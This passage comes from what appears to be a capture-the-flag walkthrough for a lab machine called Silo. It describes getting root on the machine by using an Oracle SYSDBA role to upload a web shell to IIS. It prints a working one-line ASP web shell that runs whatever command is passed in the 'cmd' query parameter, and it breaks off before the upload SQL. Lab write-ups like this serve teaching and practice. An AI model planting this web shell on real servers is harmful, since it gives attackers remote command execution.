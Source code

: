 ![root2](./silo/root2.png)

----

Now this method of getting `root.txt` is actually the "faster" way. Another way is to use the SYSDBA role to upload an ASP or ASPX webshell to the IIS webserver. Start with the following ASP web shell one-liner:

```php
<% Response.Write(CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()) %>
```

This can be uploaded with the following SQL:

- **NOTE:** Assuming the IIS webserver is installed at the default location of `c:\inetpub\wwwroot\`
